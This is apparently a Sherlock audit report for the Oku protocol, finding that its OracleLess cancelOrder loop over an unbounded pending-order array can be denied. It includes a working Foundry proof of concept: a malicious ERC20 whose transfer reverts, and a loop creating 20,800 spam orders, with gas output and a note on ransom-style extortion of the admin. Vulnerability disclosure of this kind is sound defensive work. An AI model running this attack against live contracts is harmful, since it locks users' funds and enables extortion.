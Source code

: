 # Issue M-10: cancelOrder order can be DOSed due to unbounded loop.
Source: https://github.com/sherlock-audit/2024-11-oku-judging/issues/589

### Found by
056Security, 0x0x0xw3, 0x37, 0xNirix, 0xaxaxa, 0xeix, 0xlucky, Audinarey, Boy2000, Chinedu, Contest-Squad, ExtraCaterpillar, John44, Kenn.eth, Opeyemi, PeterSR, Ragnarok, Tri-pathi, ami, befree3x, bughuntoor, future2_22, gajiknownnothing, hals, iamandreiski, itcruiser00, joshuajee, mxteem, oualidpro, phoenixv110, rahim7x, s0x0mtee, vinica_boy, whitehair0330, xiaoming90, ***yuza101***, zhoo, zxriptor

### Summary
The pendingOrderIds arrays can grow too large making it impossible to cancel subsequent legitimate pending orders, this will create a permanent DOS for the _cancelOrder no one will be able to cancel orders not admin nor order reciepient.

### Root Cause
The root cause of the issue lies in the _cancelOrder function that loops through the pendingOrderIds in search of the right one because this pendingOrderIds array can grow too large a DOS is bound to happen and this can be exploited by a hacker to ransomware the protocol.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151
```
    function _cancelOrder(Order memory order) internal returns (bool) {  
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {  
            if (pendingOrderIds[i] == order.orderId) {  
                //remove from pending array  
                pendingOrderIds = ArrayMutation.removeFromArray(  
                    i,  
                    pendingOrderIds  
                );  
  
                //refund tokenIn amountIn to recipient  
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);  
  
                //emit event  
                emit OrderCancelled(order.orderId);  
  
                return true;  
            }  
        }  
        return false;  
    }  
``` 
### Internal pre-conditions
No response

### External pre-conditions
No response

### Attack Path
Attacker creates a malicious ERC20 token with fake transfers to ease the gas cost for this attack.
Attacker Creates 20800 orders using a worthless token as tokenIn, demanding 1 USDC per order.
They make it impossible for the admin to cancel the order because they deliberately revert the transfer on their malicious contract.
After this legitimate users will not be able to cancel order.

### Impact
The cancelOrder function won't work and it will cost around $150 dollar to do it.
There is a financial ransomware gain where the attacker can set high tokens out and force the admin to pay more money for their worthless token, so this is incentivized.

### PoC
Follow these steps to add foundry to the contract https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry

Install open zeppelin contracts
```
forge install https://github.com/OpenZeppelin/openzeppelin-contracts.git --no-commit
```
  
Copy and paste the code snippet below in the /test/ folder.
```
// SPDX-License-Identifier: MIT  
pragma solidity ^0.8.24;  
  
import "forge-std/Test.sol";  
import "forge-std/console.sol";  
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";  
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";  
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";  
import "../contracts/interfaces/uniswapV3/IPermit2.sol";  
import "../contracts/interfaces/openzeppelin/ERC20.sol";  
import "../contracts/interfaces/openzeppelin/IERC20.sol";  
  
contract FakeERC20 {  
    function transfer(address to, uint256 amount) external returns (bool) {   
        revert("HACKED!");  
        return false;  
    }  
  
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {   
        return true;  
    }  
  
}  
  
contract PocTest is Test {  
  
    AutomationMaster automationMaster;  
    OracleLess oracleLess;  
    IPermit2 permit2;  
    IERC20 fakeErc20;  
    IERC20 realToken;  
  
    address attacker = makeAddr("attacker");  
    address alice = makeAddr("alice");  
  
    function setUp() public {  
        automationMaster = new AutomationMaster();  
        oracleLess = new OracleLess(automationMaster, permit2);  
        fakeErc20 = IERC20(address(new FakeERC20()));  
        realToken = IERC20(address(new ERC20Mock()));  
        //MINT  
        ERC20Mock(address(realToken)).mint(alice, 100 ether);  
    }  
  
    function testDosAttack() public {  
        uint96 orderId;  
        uint gasUsed = gasleft();  
        vm.startPrank(alice);  
        realToken.approve(address(oracleLess), 100 ether);  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        gasUsed = gasleft();  
        oracleLess.cancelOrder(orderId);  
        console.log("Normal Cancel Gas Usage        : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(attacker);  
        gasUsed = gasleft();  
        for (uint i = 0; i < 20800; i++)  
            oracleLess.createOrder(fakeErc20, fakeErc20, 1, 1, attacker, 10, false, '0x0');  
        console.log("Attack Gas Usage               : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(alice);  
        gasUsed = gasleft();  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        oracleLess.cancelOrder(orderId);  
        console.log("After Attack Cancel Gas Usage  : ", gasUsed - gasleft());  
        vm.stopPrank();  
    }  
  
}
```  
Output
```
[PASS] testDosAttack() (gas: 444968053)  
Logs:  
  Normal Cancel Gas Usage        :  9439  
  Attack Gas Usage               :  394889776  
  After Attack Cancel Gas Usage  :  30294277
```
From the test output, we can see that 20800 order is enough to cause a DOS on the cancelOrder function, and it will cost the attacker 394889776 is about $150 dollar.

### Mitigation
Create a fuction that can use the index to cancel order.

### References
https://audits.sherlock.xyz/contests/641/report
